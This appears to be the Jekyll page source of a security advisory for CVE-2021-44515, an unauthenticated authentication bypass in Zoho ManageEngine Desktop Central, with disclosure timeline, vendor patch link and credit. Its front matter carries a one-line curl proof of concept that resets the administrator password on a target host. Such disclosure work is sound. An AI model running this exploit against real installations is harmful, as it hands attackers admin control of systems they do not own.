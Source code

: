 ```yaml
---
layout: page
permalink: /advisories/src-2022-0001/
id: SRC-2022-0001
atitle: Zoho ManageEngine Desktop Central StateFilter Arbitrary Forward Authentication Bypass Vulnerability
CVE: CVE-2021-44515
CVSSrating: 9.8
CVSSscore: (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: Zoho
affected: ManageEngine Desktop Central and ManageEngine Desktop Central MSP <= 10.1.2137.2
timeline: [
2019-12-12 - Discovered and unreported,
2021-12-03 - Patched by Zoho,
2022-01-21 - Public release of advisory,
]
credit: Steven Seeley of Source Incite
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to bypass authentication on affected installations of ManageEngine Desktop Central. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the StateFilter class. The issue results from an arbitrary forward during request handling. An attacker can leverage this vulnerability to bypass authentication on the system and reset the administrators password.</p>
acknowledgments:
poc: curl -kb "STATE_COOKIE=&_REQS/_TIME/1337" "https://target.tld:8383/STATE_ID/1337/changeDefaultAmazonPassword?loginName=admin&newUserPassword=haxed" -d ""
---
```


<h4><b>{{page.id}} : {{page.atitle}}</b></h4>

**CVE ID:**
<p class="cn">{{page.CVE}}</p>

**CVSS Score:**
<p class="cn">{{page.CVSSrating}}, <a href="https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}}">{{page.CVSSscore}}</a></p>

**Affected Vendors:**
<p class="cn">{{page.vendor}}</p>

**Affected Products:**
<p class="cn">{{page.affected}}</p>
{% if page.affectedlist %}
<ul class="cn">
{% for item in page.affectedlist %}
  <li>{{ item }}</li>
{% endfor %}
</ul>
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. More details can be found at: [https://www.manageengine.com/products/desktop-central/cve-2021-44515-authentication-bypass-filter-configuration.html](https://www.manageengine.com/products/desktop-central/cve-2021-44515-authentication-bypass-filter-configuration.html)

**Disclosure Timeline:**
<ul class="cn">
{% for item in page.timeline %}
  <li>{{ item }}</li>
{% endfor %}
</ul>
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```
{% endif %}
**Credit:**
<p class="cn">This vulnerability was discovered by {{page.credit}}</p>
{% if page.acknowledgments %}

**Acknowledgments:**
<p class="cn">{{page.acknowledgments}}</p>
{% endif %}